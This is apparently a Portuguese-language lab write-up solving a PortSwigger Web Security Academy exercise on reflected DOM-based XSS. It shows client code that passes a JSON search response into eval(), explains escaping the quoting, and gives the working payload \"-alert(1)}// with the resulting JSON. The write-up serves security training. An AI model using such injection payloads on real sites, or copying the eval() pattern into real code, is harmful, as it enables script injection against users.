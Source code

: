 #ctf 

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected


Ao fazer a requisição pesquisando por algo na barra de busca, o servidor retorna um JSON refletindo o que foi pesquisado

```json
{
"searchTerm": "resultado",
"results": []
}
```

E essa strings refletida é jogada para um `eval()`.

```javascript
var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();
```

Com isso basta escapar do JSON. Se eu adiciono aspas duplas para fechar do `searchTerm` o JSON coloca uma barra invertida antes delas mas se eu adicionar `\"` eu consigo fechar o valor. Agora preciso colocar o `alert()` colocando `-` para separar da expressão antes, fechar o colchete e comentar o resto.

```
\"-alert(1)}//
```

Assim que ficou o resultado do JSON:

```JSON
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```

GG
